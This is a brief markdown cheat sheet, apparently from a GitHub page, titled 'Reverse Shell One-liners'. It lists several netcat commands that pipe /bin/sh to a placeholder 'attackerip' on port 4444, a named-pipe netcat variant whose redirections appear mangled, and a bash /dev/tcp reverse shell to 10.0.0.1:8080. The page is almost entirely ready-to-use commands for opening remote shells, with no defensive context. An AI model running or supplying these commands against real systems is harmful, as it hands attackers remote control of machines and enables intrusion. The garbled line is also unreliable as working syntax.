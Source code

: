 ## Reverse Shell One-liners
These are a list of shell one liners which be invoked on most of UNIX systems

### 1. Netcat

> nc -c /bin/sh attackerip 4444
/bin/sh | nc attackerip 4444
rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p






bash -i >& /dev/tcp/10.0.0.1/8080 0>&1